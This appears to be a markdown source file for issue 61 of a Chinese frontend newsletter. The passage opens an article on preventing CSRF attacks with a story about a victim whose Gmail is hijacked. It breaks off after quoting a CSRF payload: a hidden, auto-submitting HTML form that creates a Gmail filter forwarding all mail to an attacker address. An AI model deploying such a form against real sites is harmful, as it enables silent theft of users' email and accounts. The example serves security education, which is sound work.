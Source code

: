 ```yaml
---
title: 第61期
date: '2021-07-20'
tags: ['安全', 'vue']
draft: false
summary: 前端安全系列（二）：如何防止 CSRF 攻击？;尤大大新活 petite-vue 尝鲜
---
```


<TOCInline toc={props.toc} asDisclosure toHeading={3} />

## 2021/07/20

## 每周资讯 - 第`61`期

### 1. 前端安全系列（二）：如何防止 CSRF 攻击？

#### 背景

随着互联网的高速发展，信息安全问题已经成为企业最为关注的焦点之一，而前端又是引发企业安全问题的高危据点。在移动互联网时代，前端人员除了传统的 XSS、CSRF 等安全问题之外，又时常遭遇网络劫持、非法调用`Hybrid API` 等新型安全问题。当然，浏览器自身也在不断在进化和发展，不断引入`CSP`、`Same-Site Cookies`等新技术来增强安全性，但是仍存在很多潜在的威胁，这需要前端技术人员不断进行“查漏补缺”。

#### 前端安全

近几年，美团业务高速发展，前端随之面临很多安全挑战，因此积累了大量的实践经验。我们梳理了常见的前端安全问题以及对应的解决方案，将会做成一个系列，希望可以帮助前端同学在日常开发中不断预防和修复安全漏洞。本文是该系列的第二篇。

#### CSRF 攻击

##### CSRF 漏洞的发生

相比 XSS，CSRF 的名气似乎并不是那么大，很多人都认为 CSRF“不那么有破坏性”。真的是这样吗？

接下来有请小明出场~~

##### 小明的悲惨遭遇

这一天，小明同学百无聊赖地刷着 Gmail 邮件。大部分都是没营养的通知、验证码、聊天记录之类。但有一封邮件引起了小明的注意：

> 甩卖比特币，一个只要 998！！

聪明的小明当然知道这种肯定是骗子，但还是抱着好奇的态度点了进去（请勿模仿）。果然，这只是一个什么都没有的空白页面，小明失望的关闭了页面。一切似乎什么都没有发生……

在这平静的外表之下，黑客的攻击已然得手。小明的 Gmail 中，被偷偷设置了一个过滤规则，这个规则使得所有的邮件都会被自动转发到hacker@hackermail.com。小明还在继续刷着邮件，殊不知他的邮件正在一封封地，如脱缰的野马一般地，持续不断地向着黑客的邮箱转发而去。

不久之后的一天，小明发现自己的域名已经被转让了。懵懂的小明以为是域名到期自己忘了续费，直到有一天，对方开出了`$650`的赎回价码，小明才开始觉得不太对劲。

小明仔细查了下域名的转让，对方是拥有自己的验证码的，而域名的验证码只存在于自己的邮箱里面。小明回想起那天奇怪的链接，打开后重新查看了“空白页”的源码：

```html
<form
  method="POST"
  action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf"
  enctype="multipart/form-data"
>
  <input type="hidden" name="cf2_emc" value="true" />
  <input type="hidden" name="cf2_email" value="hacker@hakermail.com" />
  .....
  <input type="hidden" name="irf" value="on" />
  <input type="hidden" name="nvp_bu_cftb" value="Create Filter" />
</form>
<script>
  document.forms[0].submit()
</script>
```
